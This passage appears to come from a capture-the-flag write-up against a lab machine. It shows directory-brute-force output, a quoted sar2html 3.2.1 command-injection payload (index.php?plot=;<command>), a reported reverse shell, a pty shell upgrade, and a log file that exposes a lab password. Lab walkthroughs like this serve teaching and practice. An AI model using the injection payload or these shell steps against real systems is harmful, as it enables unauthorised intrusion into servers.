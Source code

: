 ```bash
/installation         (Status: 301) [Size: 328] [--> http://10.10.145.140/joomla/installation/]
/language             (Status: 301) [Size: 324] [--> http://10.10.145.140/joomla/language/]
/layouts              (Status: 301) [Size: 323] [--> http://10.10.145.140/joomla/layouts/]
/libraries            (Status: 301) [Size: 325] [--> http://10.10.145.140/joomla/libraries/]
/media                (Status: 301) [Size: 321] [--> http://10.10.145.140/joomla/media/]
/modules              (Status: 301) [Size: 323] [--> http://10.10.145.140/joomla/modules/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.145.140/joomla/plugins/]
/index.php            (Status: 200) [Size: 12484]
/templates            (Status: 301) [Size: 325] [--> http://10.10.145.140/joomla/templates/]
/tests                (Status: 301) [Size: 321] [--> http://10.10.145.140/joomla/tests/]
/tmp                  (Status: 301) [Size: 319] [--> http://10.10.145.140/joomla/tmp/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

## Exploitation

I visited the `_test` directory and that page redirected me to a sar2html 3.2.1 page. I ran a searchsploit on sar2html and found an [exploit](https://www.exploit-db.com/exploits/47204):

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

I tried the exploit and it worked. I got a reverse shell:

```bash
$ ls
ls
index.php  log.txt  sar2html  sarFILE
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@Vulnerable:/var/www/html/joomla/_test$ ls
ls
index.php  log.txt  sar2html  sarFILE
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
www-data@Vulnerable:/var/www/html/joomla/_test$  
```
